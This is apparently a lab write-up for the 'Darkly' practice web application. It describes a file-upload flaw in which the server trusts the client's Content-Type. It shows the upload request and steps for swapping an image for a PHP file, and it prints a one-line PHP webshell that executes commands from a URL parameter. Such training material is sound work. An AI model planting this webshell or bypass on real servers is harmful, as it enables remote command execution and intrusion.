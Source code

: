 # Reliance on File Name or Extension of Externally-Supplied File

## Description

This vulnerability occurs when a web application relies solely on the file name or extension to determine the file's type and how it should be processed. Attackers can exploit this to upload malicious files that bypass security measures, leading to code execution or other harmful actions.

### Evidence of Vulnerability

The `Darkly` application allows users to upload files through the "Add an Image" feature. Upon inspecting the upload request, the application accepts a JPEG file with the following request:
```bash
POST /index.php?page=upload HTTP/1.1
Host: darkly
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOV2Ry4ckO23ApHOU
Content-Disposition: form-data; name="uploaded"; filename="img.jpeg"
Content-Type: image/jpeg
```
The application only checks the Content-Type provided by the client. This can be bypassed by modifying the Content-Type field in the request to trick the server into accepting non-image files.

### Exploitation Steps
1. Upload a valid JPEG file (e.g., img.jpeg) and intercept the request.
2. Replace the file with a malicious PHP webshell and change the Content-Type to image/jpeg.
3. Submit the modified request.
4. Access the uploaded file to execute commands on the server.
```php
<?php
  system($_GET['cmd']);
?>
```
